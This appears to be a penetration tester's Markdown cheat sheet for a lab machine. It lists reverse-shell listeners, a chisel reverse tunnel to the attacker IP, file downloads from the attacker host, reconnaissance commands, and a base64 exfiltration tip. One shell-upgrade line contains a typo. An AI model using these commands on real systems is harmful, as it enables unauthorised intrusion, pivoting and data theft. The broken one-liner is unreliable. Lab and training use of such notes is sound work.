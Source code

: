 # PT𓀮EH

```sh
# VM host:

# kali server:
10.10.14.69

# vuln boxes:
10.10.10.198
```

# toc

<!-- vim-markdown-toc GFM -->

  * [enumeration](#enumeration)
  * [foothold and pivot](#foothold-and-pivot)
    * [kali](#kali)
    * [linux](#linux)
    * [windows](#windows)
  * [priviledge escalation](#priviledge-escalation)
    * [linux](#linux-1)
    * [windows](#windows-1)
* [bonus](#bonus)
  * [oneliners](#oneliners)
  * [kali config](#kali-config)
  * [kali tips](#kali-tips)
  * [basics](#basics)
    * [windows](#windows-2)
    * [linux](#linux-2)

<!-- vim-markdown-toc -->

## enumeration

<details><summary><input type=checkbox> port scanning</summary>

```sh
nmap -v $host | tee 00.nmap # fast initial scan.

```

</details>

## foothold and pivot

### kali

<details> <summary><input type=checkbox> serving files</summary>

```sh
# via webserver:
python3 -m http.server 80

# via samba:
impacket-smbserver -smb2server share .
```

</details>

<details><summary><input type=checkbox> reverse shells and port bindings</summary>

```sh
# netcat
rlwrap nc -lnvp 42424

# chisel
# start the client first:
chisel client -v 10.10.14.69 R:8888:127.0.0.1:8888
# local: 8888
# remote: 127.0.0.1:8888
chisel server -v -p 12345 --reverse
# connect with:

# plink
```

</details>


### linux

<details><summary><input type=checkbox> information gathering</summary>


```sh
id # user and groups.
ps -p $$
ip a # or ifconfig.
netstat -tulpen # connections.
lsblk # devices.
locate / # list of probably every file on the system.
# depending on under which user updatedb ran.
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# linux download:
wget $h/file
curl $h/file -so file
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
./linpeas.sh -a
```

</details>

### windows

<details><summary><input type=checkbox> information gathering</summary>

```sh
dir /q
whoami /all
systeminfo
set
tasklist
ipconfig /all
netstat -nao | findstr 127 | findstr LISTEN
net start # services
sc #?
powershell -c "Get-Service | Format-Table -AutoSize"
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# powershell:
iwr hostname/file.exe -outf file.exe
# long version:
Invoke-WebRequest hostname/file.exe -OutFile file.exe
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
linpeas.exe
linpeas.bat # if exe fails.
```

</details>

## priviledge escalation

### linux

### windows

# bonus
## oneliners

<details><summary></summary>

```sh
# upgrade shell:
python -c 'import pyt;pty.spawn("bash")'

# fix environment:
export TERM=linux

# listen for incoming connection:
nc -nvlp 1234

# logging a reverse shell locally:
script # stop with ^D. breaks in vi. finicky.

# get a temp dir:
cd $(mktemp -d)

# get local connections:
netstat -tulpen
```

</details>

## kali config

<details><summary></summary>

```sh
# pip2 for new Kalis:
curl -s https://bootstrap.pypa.io/get-pip.py | python2
pip2 install requests colorama # for the exploit above.
pip2 install xlrd # for windows exploit suggester.
apt install ncdu

pip3 install cve_searchsploit # https://github.com/andreafioraldi/cve_searchsploit
# update it:
cve_searchsploit -u

cd /opt
git clone 'https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git'
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --help

# chisel
cd /opt
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_windows_386.gz'
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_linux_386.gz'
gunzip chisel*
mv chisel*windows* chisel.exe
```

```sh
# metasploit
sudo service postgresql start
sudo msfdb init
msfconsole # db_status
```

</details>

## kali tips

<details><summary></summary>

* ranger disables previews for root (enable them on a by case basis with `zp`)

</details>

## basics
### windows

<details><summary></summary>

```sh
# windows get cmd.exe help:
help

# powershell
cd $env:tmp

# cmd.exe
cd %tmp%
```

</details>

### linux

<details open>
<summary></summary>

```sh
umask -S # file creation mask.
# help umask (linux)

sudo -l # list allowed and forbidden commands.

sudo -u kali whoami # run whoami as kali.

base64 # great for exfiltration without inet.
# then just copy the text from the terminal.
# -d to decode it again.
# use pipes or pass a filename.

strings -e # different encoding options.

find . # get list of all files in dir.
# great for lot's of files/folders with spaces
# where autocompletion is broken.

xdotool # fake keyboard mouse in X.
```

</details>
